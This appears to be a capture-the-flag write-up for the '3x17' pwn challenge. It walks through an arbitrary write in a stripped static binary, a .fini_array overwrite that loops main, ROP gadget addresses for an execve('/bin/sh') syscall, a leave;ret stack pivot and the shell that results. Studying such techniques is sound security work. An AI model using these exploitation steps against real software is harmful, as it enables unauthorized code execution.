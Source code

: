 # 3x17 Writeup

This challenge was relatively difficult for me and introduced a few new concepts to me. Overall a pretty good challenge I would say.

I started out by looking at the binary information to see what's going on. Calling `pwn checksec ./3x17` shows this:

```
 Arch:     amd64-64-little
 RELRO:    Partial RELRO
 Stack:    No canary found
 NX:       NX enabled
 PIE:      No PIE (0x400000)
```

Nice! No PIE and no canary. That makes it easier. Wait a second...`file ./3x17`

```
./3x17: ELF 64-bit LSB executable,
x86-64, version 1 (GNU/Linux),
statically linked,
for GNU/Linux 3.2.0,
BuildID[sha1]=a9f43736cc372b3d1682efa57f19a4d5c70e41d3,
stripped
```

We're working with a stripped binary. This is gonna make it a little tough to work with. I decided to look through ghidra to figure out what was going on a little better. Taking a look at `entry` I can see that there is a function that looks a lot like `__libc_start_main` being called:

```
FUN_00401eb0(main,in_stack_00000000,&stack0x00000008,FUN_004028d0,FUN_00402960,param_3,auStack8)
```

The main there was added after the fact. I know that in a call to `__libc_start_main` the first argument is always a pointer to the main function. So I decided to take a look at that function to see what it did. The next example shows the function with all the function names that I filled out as I was testing the program. But essentially the main function looked like this:

```
int main(){
  DAT_004b9330 = DAT_004b9330 + '\x01';
  cVar1 = DAT_004b9330;
  if (DAT_004b9330 == '\x01') {
    write(1,"addr:",5);
    read(0,local_28,0x18);
    addr = atoi(local_28);
    write(1,"data:",5);
    read(0,(long)addr,0x18);
    cVar1 = '\0';
  }
  }
```

This entire function is very useful to know. Essentially what it's doing is reading a value that the user is able to enter then converting that value to a number. Then it will use that value as the destination of the next user input. Essentially an arbitrary write to any writeable memory. Looking at the section headers we can see what's writeable.

```
Section Headers:
  [Nr] Name              Type             Address           Offset
       Size              EntSize          Flags  Link  Info  Align
  [ 0]                   NULL             0000000000000000  00000000
       0000000000000000  0000000000000000           0     0     0
  [ 1] .note.ABI-tag     NOTE             0000000000400200  00000200
       0000000000000020  0000000000000000   A       0     0     4
  [ 2] .note.gnu.build-i NOTE             0000000000400220  00000220
       0000000000000024  0000000000000000   A       0     0     4
  [ 3] .rela.plt         RELA             0000000000400248  00000248
       0000000000000228  0000000000000018  AI       0    19     8
  [ 4] .init             PROGBITS         0000000000401000  00001000
       0000000000000017  0000000000000000  AX       0     0     4
  [ 5] .plt              PROGBITS         0000000000401018  00001018
       00000000000000b8  0000000000000000  AX       0     0     8
  [ 6] .text             PROGBITS         00000000004010d0  000010d0
       000000000008b360  0000000000000000  AX       0     0     16
  [ 7] __libc_freeres_fn PROGBITS         000000000048c430  0008c430
       0000000000001efa  0000000000000000  AX       0     0     16
  [ 8] .fini             PROGBITS         000000000048e32c  0008e32c
       0000000000000009  0000000000000000  AX       0     0     4
  [ 9] .rodata           PROGBITS         000000000048f000  0008f000
       000000000001937c  0000000000000000   A       0     0     32
  [10] .stapsdt.base     PROGBITS         00000000004a837c  000a837c
       0000000000000001  0000000000000000   A       0     0     1
  [11] .eh_frame         PROGBITS         00000000004a8380  000a8380
       000000000000a608  0000000000000000   A       0     0     8
  [12] .gcc_except_table PROGBITS         00000000004b2988  000b2988
       00000000000000a9  0000000000000000   A       0     0     1
  [13] .tdata            PROGBITS         00000000004b40c0  000b30c0
       0000000000000020  0000000000000000 WAT       0     0     8
  [14] .tbss             NOBITS           00000000004b40e0  000b30e0
       0000000000000040  0000000000000000 WAT       0     0     8
  [15] .init_array       INIT_ARRAY       00000000004b40e0  000b30e0
       0000000000000010  0000000000000008  WA       0     0     8
  [16] .fini_array       FINI_ARRAY       00000000004b40f0  000b30f0
       0000000000000010  0000000000000008  WA       0     0     8
  [17] .data.rel.ro      PROGBITS         00000000004b4100  000b3100
       0000000000002df4  0000000000000000  WA       0     0     32
  [18] .got              PROGBITS         00000000004b6ef8  000b5ef8
       00000000000000f0  0000000000000000  WA       0     0     8
  [19] .got.plt          PROGBITS         00000000004b7000  000b6000
       00000000000000d0  0000000000000008  WA       0     0     8
  [20] .data             PROGBITS         00000000004b70e0  000b60e0
       0000000000001af0  0000000000000000  WA       0     0     32
  [21] __libc_subfreeres PROGBITS         00000000004b8bd0  000b7bd0
       0000000000000048  0000000000000000  WA       0     0     8
  [22] __libc_IO_vtables PROGBITS         00000000004b8c20  000b7c20
       00000000000006a8  0000000000000000  WA       0     0     32
  [23] __libc_atexit     PROGBITS         00000000004b92c8  000b82c8
       0000000000000008  0000000000000000  WA       0     0     8
  [24] .bss              NOBITS           00000000004b92e0  000b82d0
       0000000000001718  0000000000000000  WA       0     0     32
  [25] __libc_freeres_pt NOBITS           00000000004ba9f8  000b82d0
       0000000000000028  0000000000000000  WA       0     0     8
  [26] .comment          PROGBITS         0000000000000000  000b82d0
       0000000000000023  0000000000000001  MS       0     0     1
  [27] .note.stapsdt     NOTE             0000000000000000  000b82f4
       00000000000010c0  0000000000000000           0     0     4
  [28] .shstrtab         STRTAB           0000000000000000  000b93b4
       0000000000000134  0000000000000000           0     0     1
```

Looks like anything past the `.tdata` array is writeable. I thought about using the GOT, but the program doesn't call any other functions after getting the user input. Originally I was under the impression that the program stops immediately after the main function. What I learned is that libc has something called the `.init_array` and `.fini_array`. These are the arrays that hold the constuctors and destructors of the program. Since the constuctors have already been called so I can't do anything there. The destructors are called at the end of the program though so I know those haven't been called yet at the time of user input. I can see that that location is writable, I just need to know how `.fini_array` works. Looking at [This](https://blog.k3170makan.com/2018/10/introduction-to-elf-format-part-v.html) I can see that the `.fini_array` holds the pointers to two desctructor functions. I can see where they get called by looking at the functions in ghidra. The when I do that, I can check out the calling function from the calling tree. This is what that function looks like:

```c
void FUN_00402960(void)

{
  long lVar1;

  lVar1 = 1;
  do {
    (*(code *)(&PTR_FUN_004b40f0)[lVar1])();
    lVar1 = lVar1 + -1;
  } while (lVar1 != -1);
  return;
}
```

Essentially what this is doing is taking the array at `PTR_FUN_004b40f0` and calling the pointer at `index 1`. Once the program comes back to this spot, the fucntion at `index 0` gets called which is the function that actually exits the program. If we are going to exploit this we can replace that `index 1` pointer with the address of main. With this, the `.fini_array` will go from this:

```
<fini_array_addr> : <second_called_ptr> <first_called_ptr>
```
to this:
```
<fini_array_addr> : <second_called_ptr> <main_func>
```

So there's one problem with this. If we recall our main function, there's a value that increases every time it gets called. If we call main again, the value gets incremented again and we don't get another read. Luckily this value is a byte type. This will be useful in the future. When the main function returns from it's failure to read again, it will come back to the `FUN_00402960` function except now it will call the function at `index 0`. All I had to do was replace that other function pointer with the beginning of the `FUN_00402960` function. Which would reset the counter and call the main function again. So it looks like this instead:
```
<fini_array_addr> : <FUN_00402960> <main_func>
```
This allows for an infinite loop of the main function. This is useless to us for now since that incremented byte variable prevents us from being able to write more, but luckily it's a byte. After 256 loops, it will roll over back to 0 again and we can write some more to some location in memory. This is where we can start to build a ROP chain. I got some ROP gadgets that will just get the registers prepped for an execve syscall:

```
pop RAX; RET = 0x41e4af
> 0x3b
pop RDI; RET = 0x48c429
> '/bin/sh\x00'
pop RSI; RET = 0x48a79a
> 0x0
pop RDX; RET = 0x44a2e6
> 0x0
syscall = 0x486e0f
```
Now I need to find where to put it and we're set. This is hard though because we dont really have control of the stack. This is where I learned about stack pivots. If you call `leave; ret` at certain places in the program, it will pivot the stack to an address on the stack which is really useful in the case of this challenge. If we try to put this in the second fini_array address, then we have a problem. It doesn't have a nice address on the stack, so it will just break the program execution. If we instead put in in the first index in the array, the stack has a nice address on it: `0x4b4100`. Now all we have to do is write the rop chain to this spot and then replace the mentioned location with  `leave; ret`. Now we have our finished exploit and it will stack pivot in order to put our saved ROP chain on the stack and run it! There we go:
```
[*] Switching to interactive mode
$ cd /home/3x17
$ ls
3x17
run.sh
the_4ns_is_51_fl4g
$ cat the_4ns_is_51_fl4g
flag{<flag_here>}
```
